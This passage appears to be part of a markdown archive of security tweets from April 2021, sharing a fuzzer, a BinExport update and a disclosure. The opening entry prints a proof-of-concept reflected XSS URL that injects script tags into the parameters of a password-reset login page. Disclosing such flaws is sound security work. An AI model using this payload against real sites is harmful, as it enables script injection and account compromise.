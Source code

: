 POC:
http://IP/login/forgetpswd.php?loginsys=1&amp;orgcode=%22%3E%3Cscript%3Ealert(/XSS/)%3C/script%3E&amp;loginname=%22%3E%3Cscript%3Ealert(/XSS/)%3C/script%3E

Ref:https://t.co/X9nVcvs4Wc https://t.co/CLSakvA9nl
</blockquote>

* https://gist.github.com/pikpikcu/9689c5220abbe04d4927ffa660241b4a

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+Eyp0iXEU4AEQUBV.png" alt="http://pbs.twimg.com/media/Eyp0iXEU4AEQUBV.png"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>139</code></td>
</tr></table>

---

# Enno_Insinuator
**https://twitter.com/Enno_Insinuator/status/1380861458804785153 _at 2021-04-10 12:33:21_**
<blockquote>
Fuzzotron is a simple network fuzzer supporting TCP, UDP and multithreading
https://t.co/cPzjfAwHmH
</blockquote>

* https://github.com/denandz/fuzzotron

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>87</code></td>
</tr></table>

---

# AdmVonSchneider
**https://twitter.com/AdmVonSchneider/status/1380837183527993346 _at 2021-04-10 10:56:53_**
<blockquote>
Just updated BinExport for Binary Ninja:
https://t.co/fDxRw4aYdR
(macOS bins not notarized, though)
#BinDiff @vector35
</blockquote>
